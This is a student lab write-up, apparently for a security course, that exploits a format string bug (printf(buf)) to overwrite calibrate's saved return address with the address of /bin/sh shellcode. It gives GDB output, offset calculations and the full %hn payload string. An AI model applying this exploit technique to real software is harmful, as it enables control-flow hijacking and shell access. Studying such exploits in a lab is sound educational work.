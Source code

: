 # Question 6: Antares Write-up
## Main Idea
#### (A description of the vulnerability)
The code is vulnerable because no format string is passed into ```printf(buf)``` and we can control ```buf```. We can pass in format string specifiers into ```buf``` where we can read and write from memory and take control of the program. More specifically, we overwrite the rip of ```calibrate``` with the address of our malicious shellcode after which we get the program to do what we want it to do. 
```
    printf(buf);
```
This is a format string vulnerability.

## Magic Numbers
#### (How any relevant “magic numbers” were determined, usually with GDB)
We first determine the address of the shellcode (0xffffd78a). This was done by invoking GDB, setting breakpoint at line 15 and printing out the ```argv[1]```.
```
(gdb) p argv[1]
$22 = 0xffffd78a "j2X̀\211É\301jGX̀1\300Ph//shh/binT[PS\211\341\061Ұ\v̀"
(gdb) x/2wx 0xffffd78a
0xffffd78a:     0xcd58326a      0x89c38980
```
We then find the address of ```buf``` (0xffffd570) and rip of ```calibrate``` (0xffffd55c). This is done running GDB and setting breakpoint at line 8.
```
(gdb) i f
Stack level 0, frame at 0xffffd560:
 eip = 0x8049214 in calibrate (calibrate.c:7); saved eip = 0x804928f
 called by frame at 0xffffd610
 source language c.
 Arglist at 0xffffd558, args: buf=0xffffd570 "AAAA____AAAA____%0u%hn%0u%hn\n"
 Locals at 0xffffd558, Previous frame's sp is 0xffffd560
 Saved registers:
  ebp at 0xffffd558, eip at 0xffffd55c
```
Finally, we calculate the number of words we need to move to point the arg[i] pointer of ```printf``` to start of ```buf```. This was done through taking the difference between the address of start of ```buf``` (0xffffd570) and rip of ```printf``` (0xffffd52c). 0xffffd570 - 0xffffd52c = 44 in hex = 68 in decimal. 68 / 4 = 17 words. Since initially the arg[i] pointer of ```printf``` starts 8 bytes above rip of ```printf``` we subtract 2 words from 17. Thus we need to skip 15 words before the arg[i] pointer reaches start of ```buf```.
```
(gdb) x/16x buf
0xffffd570:     0x41414141      0xffffd55c      0x41414141      0xffffd55e
0xffffd580:     0x63256325      0x63256325      0x63256325      0x63256325
0xffffd590:     0x63256325      0x63256325      0x63256325      0x35256325
0xffffd5a0:     0x37343135      0x6e682575      0x33303125      0x25753735

(gdb) si
printf (
    fmt=0xffffd570 "AAAA\\\325\377\377AAAA^\325\377\377%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%55147u%hn%10357u%hn\n") at src/stdio/printf.c:8
(gdb) i f
Stack level 0, frame at 0xffffd530:
 eip = 0x8049abe in printf (src/stdio/printf.c:8); saved eip = 0x804922f
 called by frame at 0xffffd560
 source language c.
 Arglist at 0xffffd528, args:
    fmt=0xffffd570 "AAAA\\\325\377\377AAAA^\325\377\377%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%55147u%hn%10357u%hn\n"
 Locals at 0xffffd528, Previous frame's sp is 0xffffd530
 Saved registers:
  eip at 0xffffd52c
```

## Exploit Structure
#### (A description of your exploit structure)
We essentially want to overwrite the rip of ```calibrate``` with the address of shellcode. This is done in multiple parts:
1. First, skip past 15 words to point arg[i] pointer of ```printf``` to the start of ```buf``` because that is where we can control the input. 
2. We then print out 0xd78a number of bytes to be able to overwrite the rip of ```calibrate``` with the address of the shellcode. We then write to the memory at 0xffffd55c using %hn.
3. After, we print out remaining bytes to reach 0xffff (0xffff - 0xd78a) because we want to complete the address of shellcode by writing it to the second half of rip of calibrate at 0xffffd55e to complete the overwrite. We wrote to memory using %hn instead of %n because 0xffffd78a = 4294956937 in decimal is a lot of bytes to print out and write to which can cause the program to crash. So we split it in half 0xffff = 65535 and 0xd78a = 55178. 

This causes the ```calibrate``` funciton to start executing the shellcode when it returns. 

## Exploit GDB Output
#### (GDB output demonstrating the before/after of the exploit working)
When we ran GDB after inputting the malicious exploit string, we got the following output:
```
(gdb) i f
Stack level 0, frame at 0xffffd560:
 eip = 0x8049232 in calibrate (calibrate.c:9); saved eip = 0xffffd78a
 called by frame at 0xffffd600
 source language c.
 Arglist at 0xffffd558, args:
    buf=0xffffd570 "AAAA\\\325\377\377AAAA^\325\377\377%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%55147u%hn%10357u%hn\n"
 Locals at 0xffffd558, Previous frame's sp is 0xffffd560
 Saved registers:
  ebp at 0xffffd558, eip at 0xffffd55c
```
The rip of ```calibrate``` at 0xffffd55c is successfully overwritten with the address of shellcode (0xffffd78a). 